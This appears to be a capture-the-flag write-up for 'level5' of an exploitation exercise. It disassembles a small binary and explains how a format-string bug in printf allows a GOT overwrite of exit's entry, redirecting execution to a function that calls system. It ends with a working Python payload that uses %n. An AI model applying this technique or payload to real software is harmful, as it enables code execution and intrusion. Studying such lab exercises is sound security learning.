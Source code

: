 # level5

```
080483d0 <exit@plt>:
 80483d0:	ff 25 38 98 04 08    	jmp    DWORD PTR ds:0x8049838
 80483d6:	68 28 00 00 00       	push   0x28
 80483db:	e9 90 ff ff ff       	jmp    8048370 <_init+0x3c>

080484a4 <o>:
 80484a4:	55                   	push   ebp
 80484a5:	89 e5                	mov    ebp,esp
 80484a7:	83 ec 18             	sub    esp,0x18
 80484aa:	c7 04 24 f0 85 04 08 	mov    DWORD PTR [esp],0x80485f0
 80484b1:	e8 fa fe ff ff       	call   80483b0 <system@plt>
 80484b6:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 80484bd:	e8 ce fe ff ff       	call   8048390 <_exit@plt>

080484c2 <n>:
 80484c2:	55                   	push   ebp
 80484c3:	89 e5                	mov    ebp,esp
 80484c5:	81 ec 18 02 00 00    	sub    esp,0x218
 80484cb:	a1 48 98 04 08       	mov    eax,ds:0x8049848
 80484d0:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80484d4:	c7 44 24 04 00 02 00 	mov    DWORD PTR [esp+0x4],0x200
 80484db:	00 
 80484dc:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484e2:	89 04 24             	mov    DWORD PTR [esp],eax
 80484e5:	e8 b6 fe ff ff       	call   80483a0 <fgets@plt>
 80484ea:	8d 85 f8 fd ff ff    	lea    eax,[ebp-0x208]
 80484f0:	89 04 24             	mov    DWORD PTR [esp],eax
 80484f3:	e8 88 fe ff ff       	call   8048380 <printf@plt>
 80484f8:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 80484ff:	e8 cc fe ff ff       	call   80483d0 <exit@plt>

08048504 <main>:
 8048504:	55                   	push   ebp
 8048505:	89 e5                	mov    ebp,esp
 8048507:	83 e4 f0             	and    esp,0xfffffff0
 804850a:	e8 b3 ff ff ff       	call   80484c2 <n>
 804850f:	c9                   	leave  
 8048510:	c3                   	ret    
 8048511:	90                   	nop
 8048512:	90                   	nop
 8048513:	90                   	nop
 8048514:	90                   	nop
 8048515:	90                   	nop
 8048516:	90                   	nop
 8048517:	90                   	nop
 8048518:	90                   	nop
 8048519:	90                   	nop
 804851a:	90                   	nop
 804851b:	90                   	nop
 804851c:	90                   	nop
 804851d:	90                   	nop
 804851e:	90                   	nop
 804851f:	90                   	nop
```

With this program, we can still exploit a **format string vulnerability**. There is a function `o` that we should gain access to.

There is no apparent way to hijack the control flow. Since there is an `exit` just after the `printf` in function `n`, overwriting the **saved eip** of function `n` so it points to a shellcode would be pointless.

We can write arbitrary values at arbitrary location. We can use an exploit technique which is known as a **GOT overwrite**. The Global Offset Table is used by the program and the **dynamic loader** (ld.so) to resolves shared library call at runtime, since the address of such function cannot be known at compile time.

Looking at the PLT entry of `exit`, we can see that it performs a `jmp` on a address stored inside the GOT :

```
80483d0:	ff 25 38 98 04 08    	jmp    DWORD PTR ds:0x8049838
```

If we overwrite the value stored at address `0x8049838`, we can redirect control flow to the `o` function at `0x080484a4`.

By using techniques shown in previous write-up, we end up with the following payload :

```
(python -c 'print("\x38\x98\x04\x08" + "%08x.%08x.%0134513808x.%n")'; cat) | ./level5
```